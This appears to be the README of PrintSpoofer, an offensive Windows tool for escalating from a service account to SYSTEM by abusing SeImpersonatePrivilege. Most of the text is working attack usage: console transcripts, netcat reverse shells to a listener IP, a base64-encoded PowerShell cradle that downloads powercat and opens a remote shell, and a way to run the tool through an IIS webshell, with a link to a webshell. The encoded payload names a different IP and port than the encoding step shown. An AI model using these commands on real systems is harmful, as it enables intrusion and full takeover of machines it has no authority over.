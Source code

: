 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on **Windows 10 and Server 2016/2019.**

For more information: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Usage 1: Spawn a SYSTEM process and interact with it

If you have an __interactive__ shell, you can create a new SYSTEM process in your current console.

__Use case__: bind shell, reverse shell, `psexec.py`, etc.

```cmd
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 2: Spawn a SYSTEM process and exit

If you can __execute commands__ but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

__Use case__: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```cmd
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```cmd
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Usage 3: Spawn a SYSTEM process on a desktop

If you are __logged on locally or via RDP__ (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

__Use case__: Terminal Session (RDP), VDI

```cmd
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
### Usage 4: reverse shell via powershell
```powershell
PS /Users/Anongmous> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8088/powercat.ps1');powercat -c 10.10.10.10 -p 1337 -e cmd"))
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAwADoAOAAwADgAOAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAMAAuADEAMAAuADEAMAAuADEAMAAgAC0AcAAgADEAMwAzADcAIAAtAGUAIABjAG0AZAA=

PrintSpoofer_x64.exe -c "powershell.exe -nop -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA0ADoAOAAwADgAOAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAMAAuADEAMAAuADEANAAuADEANAAgAC0AcAAgADEAMwAzADgAIAAtAGUAIABjAG0AZAA="
```
### Usage 5: run on webshell

```cmd
/c C:\inetpub\wwwroot\PrintSpoofer.exe -c "c:\\windows\\system32\\cmd.exe /c whoami /all > C:\\inetpub\\wwwroot\\tmp.txt & exit" && type C:\\inetpub\\wwwroot\\tmp.txt
```
**run twice for output command result** 

<p align="center">
  <img src="run_on_webshell.png">
</p>

[cmd.aspx](https://gist.github.com/Malayke/2ec681313cdb0892ebc3c9f7fc0baafc)
